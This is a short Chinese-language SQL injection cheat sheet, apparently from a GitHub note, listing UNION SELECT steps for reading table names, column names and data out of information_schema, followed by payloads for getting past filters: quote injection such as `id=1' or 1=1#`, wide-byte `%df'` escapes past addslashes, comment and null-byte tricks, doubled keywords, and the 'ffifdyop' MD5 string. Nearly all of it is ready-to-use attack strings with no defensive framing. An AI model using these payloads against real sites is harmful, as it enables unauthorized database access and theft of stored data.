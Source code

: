 # 1. 查询步骤

1. 获取字段个数，采用`ORDER BY`
1. 查看显示在页面伤的数据，采用`UNION SELECT 1,2,3...`
1. 替换第2步中的数字，获得表信息 `SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE TABLE_SCHEMA = DATABASE()`
1. 获得列信息，`SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='table_name'`
1. 获得最终数据，`SELECT GROUP_CONCAT(field1, field2,...) from table_name`

# 2. 注入Tips

1. 单引号绕过，`id=1' or 1=1#`
1. 宽字节绕过，用于结合addslashses()之后单引号前的\，`id=1%df' or 1=1#`
1. /**/绕过空格过滤
1. %00绕过关键词过滤
1. 有xss过滤的考虑用<>绕过关键词过滤
1. `ffifdyop` md5后`276f722736c95d99e921722cf9ed621c`转换成字符串为`'or'6<其他字符>`
1. 只过滤一次关键字的可以采用双写绕过，如`SELSELECTECT`
1. 只把'逃逸成/'的情况可以加/来结合